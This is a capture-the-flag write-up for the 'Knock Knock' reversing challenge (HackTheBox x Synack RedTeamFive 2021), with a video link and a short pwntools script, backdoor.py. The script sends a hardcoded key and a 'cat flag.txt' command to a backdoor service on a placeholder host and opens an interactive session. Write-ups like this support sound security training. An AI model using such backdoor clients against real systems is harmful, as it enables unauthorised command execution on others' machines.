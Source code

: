 ```yaml
---
name: Knock Knock (2021)
event: HackTheBox x Synack RedTeamFive CTF 2021
category: Rev
description: Writeup for Knock Knock (rev) - HackTheBox x Synack RedTeamFive CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Knock Knock

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/TN1zPbKN_9E/0.jpg)](https://youtu.be/TN1zPbKN_9E?t=1070s "HackTheBox x Synack RedTeamFive 2021: Knock Knock")

## Solution

#### backdoor.py

```py
from pwn import *

context.log_level = 'DEBUG'

io = remote('ip', 31337)

cmd = b'command:cat flag.txt'

io.send(b'8f4328c40b1aa9409012c7406129f04b')
io.send(bytes([len(cmd)]))
io.send(cmd)

io.interactive()
```
